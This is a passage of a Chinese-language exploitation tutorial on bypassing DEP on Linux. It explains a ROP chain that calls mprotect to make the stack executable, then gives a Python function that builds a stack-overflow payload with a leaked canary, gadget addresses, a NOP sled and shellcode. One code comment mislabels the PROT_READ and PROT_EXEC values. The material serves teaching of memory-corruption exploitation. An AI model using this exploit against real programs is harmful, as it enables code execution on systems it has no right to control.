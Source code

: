 ```
    p.stdin.flush()
```

  
  
让我们针对该程序尝试这个策略，看看它是否有效。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrS4NvAdzvoT9tbdqWHcViaaaIEEVnOomTL1ecGtFVMKmYffue090gBmg/640?wx_fmt=png&from=appmsg "")  
  
强制禁用 DEP 保护并执行任意代码  
  
操作系统提供了一些低级 API，允许我们在运行时修改内存页面的权限。例如，Windows 提供了一个名为的 API VirtualProtect，以及一个更低级的原生 API 来实现NtProtectVirtualMemory这一点。另一方面，基于 Unix 的系统也提供了类似的 API 来完成相同的任务，例如mprotect。这些事实可能会被滥用，迫使目标程序执行我们的恶意指令。  
  
我们可以滥用该mprotect函数使堆栈可执行，然后强制程序执行注入到堆栈中的指令。mprotect声明如下：  
  

```
intmprotect(void addr[.size], size_t size, int prot);
```

  
  
它需要三个参数：  
1. addr：内存区域的起始地址，必须与页边界对齐。  
  
1. size：地址范围的长度（以字节为单位）。  
  
1. prot：所需的访问保护。例如PROT_READ、PROT_WRITE和PROT_EXECUTE。  
  
根据 Linux x64 调用约定，这三个参数必须通过 RDI、RSI 和 RDX 寄存器传递。我们需要构建一个执行以下操作的 ROP 链：  
1. 将与页面边界对齐的堆栈地址设置为 RDI，这可以通过将该地址写入堆栈并通过弹出小工具（pop rdi; ret）检索它来完成。  
  
1. 通过将 RSI 写入堆栈并通过弹出小工具 ( pop rsi; ret) 检索它来设置所需的大小。  
  
1. 通过将 RDX 写入堆栈并通过弹出小工具 ( pop rdx; ret) 检索它来设置所需的保护。  
  
1. 将的直接地址放在mprotect堆栈上作为返回地址，以便程序可以直接跳转到执行它。  
  
1. 将 shellcode 地址放在地址旁边，mprotect以便 API 返回后立即执行。  
  

```
def hijack_exec(p: Popen, canary):
    shellcode = 0x7fffffffddb0 + 0x40                     # Shellcode Address
    stack_page = shellcode & 0xfffffffffffff000           # Aligne the address to the page boundary.
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x112                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd8205 ) # pop rdi; ret
    payload += struct.pack( &#34;<Q&#34;, stack_page ) # The aligned stack page address
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd9b39 ) # pop rsi; ret
    payload += struct.pack( &#34;<Q&#34;, 0x1000 ) # Page size 
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7ebb37d ) # pop rdx; ret
    payload += struct.pack( &#34;<Q&#34;, 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04 
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7ebb200 ) # mprotect function address
    payload += struct.pack( &#34;<Q&#34;, shellcode ) # Jump into shellcode
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
    p.stdin.flush()
```
